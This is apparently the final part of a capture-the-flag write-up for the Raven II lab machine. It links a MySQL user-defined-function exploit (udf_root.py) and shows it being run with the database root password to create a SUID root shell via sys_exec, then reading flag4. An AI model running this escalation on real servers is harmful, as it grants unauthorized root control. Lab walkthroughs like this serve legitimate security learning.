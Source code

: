 {% embed url="https://packetstormsecurity.com/files/151369/MySQL-User-Defined-Linux-x32-x86_64-sys_exec-Privilege-Escalation.html" %}
Found a exploit.
{% endembed %}

{% embed url="https://github.com/d7x/udf_root/blob/master/udf_root.py" %}
Exploit
{% endembed %}

#### Exploiting User Defined Functions.

Download the github exploit nd transfer over it to victim.

After that run the exploit and get a root shell.

```bash
www-data@Raven:/tmp$ ls
linpeas.sh  sh  tmux-33  udf_root.py
www-data@Raven:/tmp$ python2 udf_root.py --username root --password R@v3nSecurity
Plugin dir is /usr/lib/mysql/plugin/
Trying to create a udf library...
UDF library crated successfully: /usr/lib/mysql/plugin/udf1784.so
Trying to create sys_exec...
ERROR 1125 (HY000) at line 1: Function 'sys_exec' already exists
Checking if sys_exec was crated...
sys_exec was found: *************************** 1. row ***************************
name: sys_exec
 ret: 2
  dl: udf2422.so
type: function

Generating a suid binary in /tmp/sh...
+-------------------------------------------------------------------------+
| sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh') |
+-------------------------------------------------------------------------+
|                                                                       0 |
+-------------------------------------------------------------------------+
Trying to spawn a root shell...
# whoami
root

```

Now read the flag4 in `/root/flag4.txt` .

```bash
# cat /root/flag4.txt
  ___                   ___ ___ 
 | _ \__ ___ _____ _ _ |_ _|_ _|
 |   / _` \ V / -_) ' \ | | | | 
 |_|_\__,_|\_/\___|_||_|___|___|
                           
flag4{df2bc5e951d91581467bb9a2a8ff4425}

CONGRATULATIONS on successfully rooting RavenII

I hope you enjoyed this second interation of the Raven VM

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io

```
